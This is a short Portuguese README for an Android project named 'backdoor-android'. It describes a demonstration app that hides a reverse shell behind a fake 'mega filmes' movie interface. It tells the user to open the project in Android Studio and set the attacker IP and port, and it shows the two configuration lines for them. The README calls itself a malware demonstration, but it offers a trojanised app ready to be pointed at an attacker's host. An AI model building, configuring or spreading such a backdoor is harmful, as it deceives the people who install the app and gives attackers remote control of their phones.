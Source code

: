 # backdoor-android
WARNING MALWARE uma demonstração de exemplo de um aplicativo android com shell reverso implementado 
abra esse projeto no android studio mude o valor da variavel ip e porta da classe java MAinActivity

      final String IP = "10.0.1.4"; //alterar IP
      final int PORT = 443; //alterar porta
         
O aplicativo simula uma interface falsa do mega filmes 

img src="https://user-images.githubusercontent.com/70478211/175779981-96924e73-72dc-4a8a-a49d-7da4748bbc39.png"
